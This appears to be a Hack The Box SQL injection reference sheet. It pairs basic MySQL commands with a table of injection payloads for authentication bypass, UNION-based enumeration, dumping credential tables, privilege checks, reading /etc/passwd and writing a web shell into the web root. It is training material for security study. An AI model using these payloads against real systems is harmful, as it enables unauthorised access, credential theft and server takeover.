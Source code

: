 ```yaml
---
title: SQL Injection Fundamentals
difficulty: medium
tier: 0
type: offensive
class: cheatsheet
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
